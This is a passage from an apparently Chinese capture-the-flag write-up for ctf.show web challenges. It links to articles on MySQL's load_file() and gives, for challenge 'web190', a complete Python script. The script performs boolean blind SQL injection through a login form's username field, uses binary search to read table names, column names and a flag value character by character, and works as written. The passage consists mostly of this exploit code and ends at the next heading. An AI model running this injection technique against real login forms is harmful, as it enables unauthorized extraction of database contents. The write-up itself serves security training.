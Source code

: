 #### load_file() 函数

https://www.cnblogs.com/qianxinggz/p/13280788.html

https://cloud.tencent.com/developer/article/1918345

## web190*

盲注

```python
# @Author:Y4tacker
import requests

url = "http://1141d804-9789-4a7e-879d-95f078eb1c10.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

## web191*
